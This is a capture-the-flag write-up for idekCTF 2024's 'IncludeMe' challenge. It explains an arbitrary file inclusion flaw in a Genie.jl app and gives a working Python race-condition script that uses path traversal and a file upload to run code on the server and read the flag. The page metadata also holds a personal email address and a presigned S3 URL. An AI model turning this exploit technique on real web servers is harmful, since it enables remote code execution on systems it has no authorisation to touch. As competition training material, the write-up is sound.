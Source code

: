 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4663ZKUSUD5%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T132310Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDUaCXVzLXdlc3QtMiJGMEQCIAq31aGhJQEsB%2FaDnpMbTo%2BVckenqTGbyFmnGyqYQWfXAiASc7vfBN2%2Fj5dcjY1plAxquoQu9PLewfmxm5cvkB1OUyqIBAju%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMItB%2FAXO99Rh2tI55KtwDRi8JoPZfkl8z5W9H4WZBImj0SJUlCh%2FMnfItXOJUOpM2zLrdgHmcV7UTMcJ45V%2B7N%2FjLAfI3kFDv%2FUUq009x4wFB1WngEbBtF6DMDgI39K7ze8ulwAOO8jjqQCDXb%2FxOnPXJJwRGFnB7WoDmB%2Bfwg0VYR75TYEmNGkgpbm%2FUzSqUG0R0RrcOP6LT3SYeYtcW4RQrzdx7rV8SuIfYd35r0s94NxmO3IMiDFj72lcUpUBYM8x%2BK4s4GzgL3r9yyDXnI%2B2XKPVVk4C6M5rX0iYD6reBauXCjj961FDkpJSwY4xqvvKeTg9C0kAOLPu4dJkgJJkMQpzw6eFu%2BKhg0TKQ3XfgYgqNjgNUto69OKoUdQpenJ%2FJQcR7ztDBTMxMyZ%2BSdVYevpNnMAH52foShfM%2FPwHFlF8lOreW2%2Fh7PeGozPrSOG9QqRe1fkE1SdZ9vTZanpHlhIRNFgbuJ2%2Btf424egy%2By1%2BgQ9amVwdwVGhCu86BvkM5X3HZlxhMBOlEYUwXiQFB%2B%2FSTGzjPGAp6akc%2FnnMRsqnoLfthqqbPKv3KaKSk%2BeMP%2FdAP%2BF9QdkJGFsVaopIwmDhkNE%2BhvG148iFNaqQebz%2BJMo1oozYXvORDrF%2FAzXq5VdGfikESY98wutjBwQY6pgEQFLKoI5QOQg8Z5O3gp%2B%2FyDMzLCo1EAFo34LPI5d7ecQ385pxOBzgoxY0UXlVJWoPBzQ5%2Bbp0Sz02wi4i%2B%2FeVKEVCw9VzHDlBCXkH8Yiv8BpvsAN0azwzHu8nz1dr87pW3OmV2EpE1%2F590nRROmkk7rDt5kQkVjwxit4KndVB%2FOCkP7VLGJDQGYBgvf0%2FN4Mx3YezhNWi9NkAWpk7DRoWSknMm4upD\&X-Amz-Signature=1da48497e58082fc73c0a9450e8a735e5e38d4ea6f75b3240c65b415f8f77eef\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)

